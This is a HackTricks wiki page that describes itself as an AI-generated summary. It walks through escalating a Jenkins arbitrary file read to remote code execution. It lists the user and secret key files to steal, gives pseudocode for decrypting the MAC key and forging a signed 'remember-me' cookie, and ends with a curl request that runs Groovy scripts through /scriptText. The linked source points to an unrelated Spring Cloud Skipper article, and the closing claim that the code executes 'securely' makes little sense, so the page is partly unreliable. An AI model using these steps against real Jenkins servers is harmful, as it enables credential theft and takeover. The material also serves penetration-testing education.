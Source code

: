 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

In this blog post is possible to find a great way to transform a Local File Inclusion vulnerability in Jenkins into RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

This is an AI created summary of the part of the post were the creaft of an arbitrary cookie is abused to get RCE abusing a local file read until I have time to create a summary on my own:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" must be enabled (default setting).
* **Access Levels:** Attacker needs Overall/Read permissions.
* **Secret Access:** Ability to read both binary and textual content from key files.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Access user configuration and secrets from `$JENKINS_HOME/users/*.xml` for each user to gather:
  * **Username**
  * **User seed**
  * **Timestamp**
  * **Password hash**

**Secret Key Extraction**

* Extract cryptographic keys used for signing the cookie:
  * **Secret Key:** `$JENKINS_HOME/secret.key`
  * **Master Key:** `$JENKINS_HOME/secrets/master.key`
  * **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Calculate Token Expiry Time:**

    {% code overflow="wrap" %}
    ```javascript
    tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Adds one hour to current time
    ```
    {% endcode %}
*   **Concatenate Data for Token:**

    {% code overflow="wrap" %}
    ```javascript
    token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
    ```
    {% endcode %}

**MAC Key Decryption**

*   **Decrypt MAC Key File:**

    ```javascript
    key = toAes128Key(masterKey)  // Convert master key to AES128 key format
    decrypted = AES.decrypt(macFile, key)  // Decrypt the .mac file
    if not decrypted.hasSuffix("::::MAGIC::::")
        return ERROR;
    macKey = decrypted.withoutSuffix("::::MAGIC::::")
    ```

**Signature Computation**

*   **Compute HMAC SHA256:**

    ```javascript
    mac = HmacSHA256(token, macKey)  // Compute HMAC using the token and MAC key
    tokenSignature = bytesToHexString(mac)  // Convert the MAC to a hexadecimal string
    ```

**Cookie Encoding**

*   **Generate Final Cookie:**

    {% code overflow="wrap" %}
    ```javascript
    cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 encode the cookie data
    ```
    {% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Fetch CSRF and Session Tokens:**
  * Make a request to `/crumbIssuer/api/json` to obtain `Jenkins-Crumb`.
  * Capture `JSESSIONID` from the response, which will be used in conjunction with the remember-me cookie.

**Command Execution Request**

*   **Send a POST Request with Groovy Script:**

    ```bash
    curl -X POST "$JENKINS_URL/scriptText" \
    --cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
    --header "Jenkins-Crumb: $CRUMB" \
    --header "Content-Type: application/x-www-form-urlencoded" \
    --data-urlencode "script=$SCRIPT"
    ```

    * Groovy script can be used to execute system-level commands or other operations within the Jenkins environment.

The example curl command provided demonstrates how to make a request to Jenkins with the necessary headers and cookies to execute arbitrary code securely.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

